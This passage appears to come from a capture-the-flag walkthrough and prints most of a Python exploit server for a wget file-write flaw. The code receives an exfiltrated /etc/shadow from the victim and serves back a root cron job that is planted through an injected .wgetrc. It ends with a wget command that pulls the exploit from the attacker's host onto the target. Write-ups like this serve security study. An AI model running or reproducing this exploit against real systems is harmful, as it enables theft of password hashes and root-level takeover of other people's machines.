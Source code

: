 ```
       if "Wget" not in self.headers.getheader('User-Agent'):
	  print "But it's not a Wget :( \n"
          self.send_response(200)
          self.end_headers()
          self.wfile.write("Nothing to see here...")
          return

       content_len = int(self.headers.getheader('content-length', 0))
       post_body = self.rfile.read(content_len)
       print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)

       print "Sending back a cronjob script as a thank-you for the file..." 
       print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
       self.send_response(200)
       self.send_header('Content-type', 'text/plain')
       self.end_headers()
       self.wfile.write(ROOT_CRON)

       print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"

       return

HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.29'
FTP_PORT = 21

ROOT_CRON = "* * * * * root /usr/bin/id > /root/hacked-via-wget \n"

handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print "Ready? Is your FTP server running?"

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
   print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
   print "FTP is down :( Exiting."
   exit(1)

print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT

handler.serve_forever()
```

I transferred exploit.py to target host, first creating a python http server to host the file.
```
wget http://10.10.14.29/exploit.py
```
